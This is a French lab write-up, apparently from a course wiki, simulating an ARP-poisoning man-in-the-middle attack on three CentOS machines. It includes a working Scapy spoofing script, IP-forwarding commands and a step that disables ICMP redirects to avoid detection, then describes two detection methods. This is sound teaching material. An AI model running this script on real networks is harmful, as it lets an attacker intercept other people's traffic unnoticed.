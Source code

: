 ```yaml
---
title: ARP poisoning
description: Un type d'attaque man-in-the-middle
published: true
date: 2019-11-03T22:46:51.839Z
tags: 
editor: undefined
dateCreated: 2019-11-03T22:46:49.876Z
---
```


# ARP poisoning

Dans le cas d'une attaque man-in-the-middle utilisant l'ARP poisoning, nous chercherons à compromettre les caches ARP des victimes afin de leur servir d'intermédiaire lorsque ces dernières communiqueront entre elles. Nous n'affecterons pas les adresses IP mais travaillerons au niveau des adresses MAC.

La simulation d'attaque présentée ici a été réalisée en salle 5105.


# Mise en place de la simulation

Les machines utilisées tourneront sous CentOS. 

Nous utiliserons trois machines, configurées comme suit :

````bash
# Machine A
ifconfig enp1s0f0 192.168.10.1 up
# Machine B
ifconfig enp1s0f0 192.168.10.2 up
# Machine attaquante
ifconfig enp1s0f0 192.168.10.3 up
````

Les trois machines seront interconnectées en LAN, séparées par un switch.

Nous utiliserons Scapy, une librairie python permettant de générer et d'envoyer des trames.

````bash
yum install python-scapy
````

Par la suite, nous utiliserons les imports suivants dans nos scripts python :

```python
from scapy.all import ARP
from scapy.all import send

from time import sleep
```

 
# Réalisation de l'attaque

## Faiblesse du protocole ARP

Le protocole ARP (Address Resolution Protocol) permet à une machine A, possédant l'adresse IP d'une machine B, d'obtenir l'adresse MAC de la machine B.

Le protocole se compose de deux principales étapes :

* ARP "who has xxx.xxx.xxx.xxx?" - la machine A diffuse cette requête en broadcast.

* ARP "xxx.xxx.xxx.xxx it at xx:xx:xx:xx:xx:xx" - la machine B répond à la machine A en lui donnant son adresse MAC.


<div style = "text-align : justify">Dans le cas où la machine A recevrait plusieurs réponses, seule la première réponse sera prise en compte. 

<div style = "text-align : justify">Par la suite, l'objectif sera, pour l'attaquant, de répondre à la requête de A avant que B ne le fasse, puis de rediriger les communications de A vers B, afin que tout semble normal.


Nous pourrons utiliser les commandes bash suivantes afin manipuler "à la main" les caches ARP :

```bash
# Afficher la table ARP :
arp -e

# Supprimer une entrée dans la table ARP (en tant que root) :
arp -d xxx.xxx.xxx.xxx
```



### Mise en place de l'attaque

<div style = "text-align : justify">Nous allons réaliser le script suivant : toutes les secondes, nous émettrons des requêtes ARP "is at" à l'intention de la machine A et de la machine B leur faisant croire que l'autre machine se situe à l'adresse MAC de l'attaquant.

​    

Voici le script python mis en place et exécuté (exécution en tant que root nécessaire) :

````python
request_A = ARP( op = ARP.is_at,		# 192.168.10.2 is at b4:96:91:2f:61:9e
		hwsrc = "b4:96:91:2f:61:9e", 	# own MAC adress
		psrc = "192.168.10.2",			# spoofed IP adress
		pdst = "192.168.10.1" )			# target IP adress

request_B = ARP( op = ARP.is_at,		# 192.168.10.1 is at b4:96:91:2f:61:9e
		hwsrc = "b4:96:91:2f:61:9e", 	# own MAC adress
		psrc = "192.168.10.1",			# spoofed IP adress
		pdst = "192.168.10.2" )			# target IP adress

while True :
    send(request_A)						# root required
    send(request_B)						# root required
    sleep(1)
````



<div style = "text-align : justify">Lorsque la machine A lance un ping vers la machine B, on remarque que cette dernière se met à pinger la machine attaquante. Toutefois, le ping n'atteint jamais la machine B.


<div style = "text-align : justify">Afin de permettre le routage des paquets IP au niveau de la machine attaquante, nous activerons l'ip foward avec la commande suivante :


```bash
# en tant que root
echo 1 > /proc/sys/net/ipv4/ip_forward
```

<div style = "text-align : justify">A partir de ce moment, les echo-requests émis par la machine A atteignent bien la machine B et les echo-replies émis par la machine B atteignent bien la machine A. 
<div style = "text-align : justify">De plus, la machine attaquante voit passer tous les paquets sur son interfaces (cette dernière route les paquets de A vers B et inversement).



<div style = "text-align : justify">Toutefois, selon la configuration de la machine attaquante, un problème peut subsister : cette dernière émet un message icmp de type 5 (redirect host) indiquant un routage. Cela peut éveiller des soupçons au niveau des machines ciblées.


Afin de désactiver les messages icmp de type 5, nous utilisons les commandes suivantes :

````bash
# en tant que root
echo 0 > /proc/sys/net/ipv4/conf/enp1s0f0/send_redirects
# en tant que root
echo 0 > /proc/sys/net/ipv4/conf/all/send_redirects
````

A partir de ce moment, un utilisateur qui n'écoute pas au niveau de ses interfaces n'a aucun moyen détecter l'attaque. 



### Détection de l'attaque

D'un point de vue défénse, il existe deux principaux moyens de détecter cette attaque.

<div style = "text-align : justify">Le premier est de lever une alerte lorsque un nombre trop important de messages ARP "is at" arrivent au niveau d'une interface et ne correspond en rien au nombre de messages "who has" émis. 

<div style = "text-align : justify">Le second est de constater que, dans la table ARP des victimes, deux adresses IP appartenant à un même réseau ont la même adresse MAC. Cela est conséquent à la prise de contact qu'a dû effectuer la machine attaquante afin de récupérer les adresses MAC des victimes et ainsi pouvoir commuter les paquets.